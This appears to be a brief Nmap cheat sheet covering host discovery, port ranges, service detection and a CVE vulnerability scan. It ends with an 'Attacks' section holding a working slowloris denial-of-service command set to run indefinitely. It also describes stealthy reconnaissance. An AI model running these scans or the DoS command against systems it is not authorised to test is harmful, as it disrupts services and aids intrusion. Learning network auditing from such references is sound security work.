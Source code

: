 # NMap

Nmap ("Network Mapper") is a free and open source utility for network discovery and security auditing.

## General Syntax
```shell
nmap [flags] host(s)
```

## Host Discovery

```shell filename="ping_scan.sh" copy
# Find what hosts are up.  Light reconnaissance without attracting much attention.
nmap -sn 192.168.1.0/24
```

## Ports

Flags
```shell
-p # Specify a single port, multiple ports (separated by a comma) or a port range (for example 20-25).
-p- # All possible ports
-top-ports x # Most common x ports
```

Commands
```shell filename="port_scan.sh" copy
# Scan a range of ports.
nmap -p 1-65535 192.168.1.0
```

## Services

```shell filename="service_detection.sh" copy
nmap -sV localhost
```

## Vulnerabilities
```shell filename="vulnerabilities.sh" copy
# Scan for known CVEs
nmap -Pn -script vuln 192.168.1.105
```


## Attacks
```shell filename="attacks.sh" copy
# DOS Attack
nmap -p 80 -max-parallelism 800 -Pn -script http-slowloris -script-args http-slowloris.runforever=true X.X.X.X
```
